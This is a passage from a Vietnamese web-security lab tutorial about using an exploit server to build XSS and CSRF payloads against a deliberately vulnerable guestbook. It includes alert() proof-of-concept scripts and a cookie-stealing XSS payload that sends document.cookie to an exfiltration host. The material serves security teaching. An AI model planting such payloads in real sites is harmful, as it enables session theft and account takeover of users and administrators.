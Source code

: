 Máy chủ này được sử dụng để phát triển các payload khai thác CSRF hoặc XSS. Nó cho phép chúng ta viết các khai thác tùy chỉnh nhằm mục tiêu vào các lỗ hổng mà chúng ta tìm thấy trên ứng dụng web dễ bị tấn công.

- **Ví dụ về Proof-of-Concept cho XSS**:
  Giả sử chúng ta muốn tạo một payload XSS đơn giản để hiển thị một hộp thông báo (alert):

  ```html
  <script>alert('XSS Detected!')</script>
  ```

- **Truy cập Payload**:
  Sau khi lưu payload, bạn có thể xem payload này bằng cách truy cập vào endpoint `/exploit`. Truy cập này sẽ kích hoạt hộp thông báo pop-up.

- **Triển khai Payload cho Nạn nhân**:
  Để nạn nhân kích hoạt payload, chúng ta có thể gửi cho họ một liên kết dẫn đến `http://exploitserver.htb/exploit`. Điều này rất hữu ích cho các cuộc tấn công CSRF, nơi nạn nhân cần tự nguyện truy cập payload để kích hoạt mã khai thác.

#### **5. Phát triển Payload XSS**

Máy chủ phát triển khai thác cũng có thể được sử dụng để tạo các payload XSS. Tuy nhiên, không giống như các cuộc tấn công CSRF, chúng ta không cần phải gửi payload cho nạn nhân. Với XSS, payload sẽ được tự động thực thi bởi mã JavaScript đã được tiêm vào ứng dụng web dễ bị tấn công.

- **Ví dụ về Payload XSS để Đánh cắp Cookie**:

  ```html
  <script>
    window.location = "http://exfiltrate.htb/cookiestealer?c=" + document.cookie;
  </script>
  ```

Payload trên sẽ tự động gửi cookie của người dùng đến máy chủ exfiltration. Khi quản trị viên truy cập vào trang chứa payload này, cookie của họ sẽ bị đánh cắp và ghi lại tại máy chủ log.

---
# Khởi động Bài Thực Hành (Lab Warmup)

Sau khi tìm hiểu về các thành phần trong môi trường lab, chúng ta sẽ khám phá cách khai thác một số lỗ hổng cơ bản thông qua các ví dụ về **XSS** và **CSRF**.

#### **1. Khởi động với XSS**

Ứng dụng web mẫu của chúng ta là một **guestbook** đơn giản cho phép người dùng đăng bài. Tất cả người dùng đều có thể xem các bài đăng này, và quản trị viên thường xuyên kiểm tra để loại bỏ các bài spam.

**Xác nhận lỗ hổng XSS**: Chúng ta có thể kiểm tra lỗ hổng XSS bằng cách đăng nội dung sau vào guestbook:

```html
<script>alert(1)</script>
```

Khi quản trị viên mở trang guestbook, một hộp thoại sẽ hiện ra, chứng tỏ rằng có một lỗ hổng XSS tồn tại.
